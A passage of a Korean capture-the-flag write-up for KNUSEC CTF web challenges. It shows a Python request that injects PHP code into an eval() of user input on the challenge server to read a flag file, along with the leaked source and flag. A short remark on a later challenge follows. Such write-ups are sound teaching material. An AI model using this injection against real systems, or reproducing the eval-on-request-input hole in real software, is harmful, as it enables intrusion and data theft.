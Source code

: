 ```
>>> response = requests.post('http://sec.kongju.ac.kr/ctf/comme/', data={'hello': 'file_get_contents(\'flag2.php\')'})
>>> response.text
'<code><span style="color: #000000">\n<span style="color: #0000BB">&lt;?php&nbsp;<br /><br /></span><span style="color: #007700">include&nbsp;</span><span style="color: #DD0000">"flag2.php"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">error_reporting</span><span style="color: #007700">(</span><span style="color: #0000BB">0</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">show_source</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br /><br /></span><span style="color: #0000BB">$a&nbsp;</span><span style="color: #007700">=&nbsp;@</span><span style="color: #0000BB">$_REQUEST</span><span style="color: #007700">[</span><span style="color: #DD0000">\'hello\'</span><span style="color: #007700">];<br />eval(</span><span style="color: #DD0000">"var_dump(</span><span style="color: #0000BB">$a</span><span style="color: #DD0000">);"</span><span style="color: #007700">);<br /></span>\n</span>\n</code>string(62) "<?php \n$flag ="flag not here!";\n\n// flag : C0mmeDesGarcons!;\n "\n'
>>>
```

```
FLAG: C0mmeDesGarcons!
```

지금은 작동하지 않을테지만 리모트쉘 처럼 될 수 있어서 막힌거다.

하는 방법은 안 알려줄거다.

### 18_web3 (100pt)

![](https://img.shields.io/badge/KNUSEC%20CTF-2017-brightgreen.svg?longCache=true&style=for-the-badge) ![](https://img.shields.io/badge/KNUSEC%20CTF-2018-brightgreen.svg?longCache=true&style=for-the-badge)

![](img/18_web3.png)

그때 어떻게 풀었는지는 기억 안나는데 지금 보니까 그냥 Guess! 버튼 누르니까 되더라..

![](img/18_web3-2.png)
